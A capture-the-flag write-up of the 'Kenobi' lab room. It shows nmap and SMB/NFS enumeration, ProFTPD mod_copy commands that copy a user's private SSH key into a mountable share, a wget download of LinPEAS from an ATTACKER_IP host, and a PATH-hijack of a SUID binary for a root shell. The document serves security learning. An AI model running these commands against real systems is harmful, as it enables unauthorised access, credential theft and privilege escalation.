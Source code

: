 ```yaml
---
title: "Kenobi"
tags:
  - Easy
  - Linux
  - nmap
  - samba
  - nfs
  - Path Manipulation
---
```


| Difficulty |  |  IP Address   |  |
| ---------- |--|:------------: |--|
|   Easy     |  | 10.10.243.180 |  |

---

We start things off with a basic `nmap` scan on the server. We can run 2 scans at one go, a thorough one that scans all ports (which takes a longer time), as well as a faster one that only scans the top 1000 ports. The commands used are as follows:

```
### Thorough
nmap -sC -sV -p- -vv 10.10.243.180

### Quick
nmap -sC -sV -vv 10.10.243.180
```

The results of the scans tells us that 7 ports are open: **21 (FTP)**, **22 (SSH)**, **80 (HTTP)**, **111 (RPC)**, **139 & 445 (Samba)** and **2049 (NFS)**.

Let's tackle the Samba server first!

Whilst previously I had learned to enumerate Samba (SMB) shares using `enum4linux`, this time, the room tells us to use nmap scripts to do the enumeration:

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.243.180
```

**Results:**

![screenshot2](../assets/images/kenobi/screenshot2.png)

As we can see, 3 shares were enumerated: **IPC$**, **anonymous** and **print$**. 

We can connect to the SMB shares using `smbclient`:

```
smbclient //10.10.243.180/SHARE_NAME
```

I tried logging into the **anonymous** share, and as the name suggests, anonymous login was enabled on it! This allowed me to log into the share without needing to supply a password.

Once in, we can list the files on the share using `ls`:

![screenshot3](../assets/images/kenobi/screenshot3.png)

There is a single text file: **log.txt**

**log.txt** was a ProFTPD configuration file which gave us a lot of interesting and potentially useful information about the server. I took note of the file and moved on first.

Next, let's tackle port **111**, which hosts **RPC**. 

---

*Remote Procedure Call (RPC) is a protocol that one program can use to request a service from a program located in another computer on a network without having to understand the network's details. RPC is used to call other processes on the remote systems like a local system. A procedure call is also sometimes known as a function call or a subroutine call.*

---

In our case, port 111 gives us access to the **Network File System (NFS)** protocol, which runs using RPC. We can use `nmap` to enumerate it with the following scripts:

```
 nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.243.180
```

![screenshot4](../assets/images/kenobi/screenshot4.png)

From the results, we can see that **/var** is mountable! With this in mind, let's move on to the **FTP** server.

The first thing we should do is to enumerate the version of ProFTPD running. To do so, we can use `nc` to connect to the FTP server and find out the version from the response banner:

```
nc 10.10.243.180 21
```

The response tells us that the ProFTPD version is **1.3.5**

Now that we know the version of ProFTPD running, let's use a nifty tool called `searchsploit`, which is a command-line search tool for exploit-db, to find relevant exploits. Using `searchsploit` is easy:

```
searchsploit ProFTPD 1.3.5
```

![screenshot5](../assets/images/kenobi/screenshot5.png)

Searchsploit gave us **3** possible exploits that could be used.

If we look at the various exploits, we learn that they target the **mod_copy** module in ProFTPD. From my research, I learned that the mod_copy module implements the `SITE CPFR` and `SITE CPTO` commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

Okay, so we can copy files from and to any part of the target machine, but what files are we interested in?

Remember the **log.txt** file from earlier? It actually reveals that the **private SSH key** of the user, kenobi, can be found in /home/kenobi/.ssh/id_rsa. Since we know that we can mount onto and access /var on the target machine, we can copy kenobi's private key over to /var and obtain it there.

With the private key, we'll then be able to access the machine via SSH as the user kenobi!

To do this, first, we use the `SITE CPFR` and `SITE CPTO` commands to copy the private key from kenobi's home directory to the **/var/tmp** directory on the target machine:

```
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```

![screenshot6](../assets/images/kenobi/screenshot6.png)

Next, we create a directory called 'kenobiNFS' in **/mnt** on our local machine:

```
sudo mkdir /mnt/kenobiNFS
```

We then mount the **/var** directory on the target machine onto our local machine using:

```
sudo mount 10.10.243.180:/var /mnt/kenobiNFS
```

From there, we can navigate to the /var/tmp directory on the target machine by visting /mnt/kenobiNFS/ on our local machine:

![screenshot7](../assets/images/kenobi/screenshot7.png)

We can then obtain the private key file!

Now that we have kenobi's private key, we can log into his SSH account. However, before doing that, we need to make sure that the file permissions of the key are set to be **read and write by owner only**. We do this with `chmod`:

```
chmod 600 id_rsa  // 400 works too
```

With the permissions set, let's now ssh into the machine as kenobi:

```
ssh kenobi@10.10.243.180 -i id_rsa
```

After successfully logging in, we can obtain **user.txt** from kenobi's **home** directory.

---

Next, let's find a way to escalate our privileges. 

For this room, we will be using **path variable manipulation** to exploit certain SUID-bit set binaries. 

To find these SUID-bit set binaries, the room taught me to use the `find` command:

```
find / -perm -u=s -type f 2>/dev/null
```

However, I decided to use a privilege-escalation automation script, [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) instead.

To transfer LinPEAS over to the target machine, let's host a simple HTTP server with Python on our local machine. To do so, I first `cd` into the linPEAS directory, which contained the linpeas.sh script that I wanted to send over. I then started the HTTP server using: 

```
python3 -m http.server
```

This will host the server on port 8000. 

Next, I used `wget` on the target machine to download the script:

```
wget http://ATTACKER_IP:8000/linpeas.sh
```

After successfully transferring the linpeas script, remember to make it executable with `chmod +x linpeas.sh`. 

After running linpeas, I noticed that there was an interesting binary that had its SUID-bit set: **/usr/bin/menu**

![screenshot8](../assets/images/kenobi/screenshot8.png)

Upon running this binary, we are presented with some interesting options:

![screenshot9](../assets/images/kenobi/screenshot9.png)

It would seem as if the binary allows us to run certain commands from within it. However, the important thing to note is that we would be running the commands as **root** (due to the SUID-bit being set).

Using the `strings` command, we can look for human-readable strings within the menu binary:

![screenshot10](../assets/images/kenobi/screenshot10.png)

From the results, we find out that the commands run in the menu binary are done without using their full paths (e.g. using `curl` instead of `/usr/bin/curl`).

Hence, we can manipulate our **PATH** to exploit this and open a privileged shell!

To do so, we first copy the `/bin/sh` script into a new file called `curl`: 

```
echo /bin/sh > curl
```

We then ensure that it is fully accessible by setting its permissions to be read-write-executable by all users:

```
chmod 777 curl
```

Next, we put its file location into our **PATH**. In my case, since I created the `curl` file in /tmp, I'll add that directory into my PATH:

```
export PATH=/tmp:$PATH
```

Now, when /usr/bin/menu is run and we execute the 'status check' command, it will check our PATH to see which directory to look for the `curl` binary. In our case, it will look in /tmp first and end up using the curl binary that we created earlier!

This will cause a shell to be opened as root, since the binary is run with SUID-bit set:

![screenshot12](../assets/images/kenobi/screenshot12.png)

With that, we are able to obtain **root.txt** from **/root**.





